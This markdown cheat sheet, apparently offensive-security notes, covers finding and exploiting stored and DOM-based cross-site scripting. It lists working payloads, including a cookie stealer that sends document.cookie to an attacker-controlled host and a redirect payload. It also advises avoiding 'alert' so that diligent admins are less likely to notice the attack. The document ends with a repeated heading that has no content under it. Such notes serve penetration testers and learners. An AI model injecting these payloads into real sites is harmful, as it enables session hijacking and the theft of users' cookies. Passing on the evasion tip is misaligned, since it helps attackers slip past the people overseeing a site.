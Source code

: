 # Cross-Site Scripting (XSS)

## Stored XSS
### Discovery
> Look for user input on the page. Search fields, contact forms, etc. See if those return the values you submittied after entry
> Can be verified if its persistent across sessions. For example, if you upload `<h1>test</h1>` and open the same page in an incognito window or another browser and it remains. Useful for stealing session cookies.  

### Test Payloads
Test with HTML
```html
# Should appear as a heading on the page
<h1>test</h1>
```
Test with JS
> Try to avoid using 'alert' to generate a pop up. This is probably logged and noticed by diligent admins
```javascript
# Should pop the print dialog for every user that visits the page.
<script>print(1)</script>

# Tries to print the session cookie
<script>print(document.cookie)</script>

# Common Cookie Stealer
<script> var i = new Image; i.src="<Your website>/?"+document.cookie;</script>
```

## Discovery
### DOM-Based
> Done completely in the client browser. No request to server on data entry. Easily confused for relfected XSS. Needs a trigger to run the payload, such as 'img src=""'
* Test Payloads 
```javascript
# Loads the print dialog
<img src=x onerror=print(1)>

# Pops the alert dialog (Do not use.(Most sites are designed to look for this))
<img src=x onerror=alert(1)>

# Send the user to another site 
<img src=x onerror="window.location.href='https://google.com'">
```
### Stored XSS
> Can be verified if its persistent across sessions. For example, if you upload `<h1>test</h1>` and open the same page in an incognito window or another browser and it remains. Useful for stealing session cookies.
* Test Payloads  
